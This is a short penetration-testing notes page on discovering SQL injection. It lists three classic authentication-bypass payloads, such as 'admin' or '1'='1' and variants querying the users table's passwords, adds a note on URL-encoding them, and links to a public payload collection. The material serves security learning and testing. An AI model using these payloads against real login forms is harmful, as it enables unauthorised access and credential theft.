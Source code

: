 # SQL Injection Discovery



## SQL Injection Discovery

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<mark style="color:red;">**Note:**</mark> In some cases, we may have to use the URL encoded version of the payload. An example of this is when we put our payload directly in the URL 'i.e. HTTP GET request'.



**Examples:**

```sql
admin' or '1'='1
```

```sql
' or 1=1 in (SELECT password FROM users) -- //
```

```sql
' or 1=1 in (SELECT password FROM users WHERE username = 'admin') -- //
```



You can find a comprehensive list of SQLi auth bypass payloads in [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass), each of which works on a certain type of SQL queries.

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass" %}



\
